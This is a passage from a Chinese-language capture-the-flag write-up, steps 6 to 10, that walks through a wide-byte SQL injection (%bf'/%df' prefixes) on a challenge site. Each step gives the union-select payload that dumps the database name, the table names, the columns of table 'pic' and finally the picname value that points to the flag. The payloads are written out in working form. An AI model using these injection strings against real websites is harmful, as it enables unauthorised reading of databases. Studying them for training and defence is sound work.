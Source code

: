 6.  测试可回显的字段位置并**爆出当前数据库名称**：`%bf' union select 1,2,database(),4%23`![在这里插入图片描述](img/0cab174e033628345e8af11080c06e05.png)
7.  爆出当前数据库的表名：`%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4--+`，![在这里插入图片描述](img/41661e53f0a3e5ec6092bd4c81e06863.png)
8.  尝试爆出表**pic**的列名，不知道为何爆不出来，查看答案知道目标为**picname**列：`%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x706963a),4%23`![在这里插入图片描述](img/eae482a152529e60876f0e29a2338ee5.png)
9.  爆出表"**pic**"的**picname**列值，得到Flag的名称：`%df' union select 1,2,(select group_concat(picname) from pic),4--+`![在这里插入图片描述](img/8ff12f08937e606344ba97e35d9f8ef0.png)
10.  访问图片地址，获得Flag：
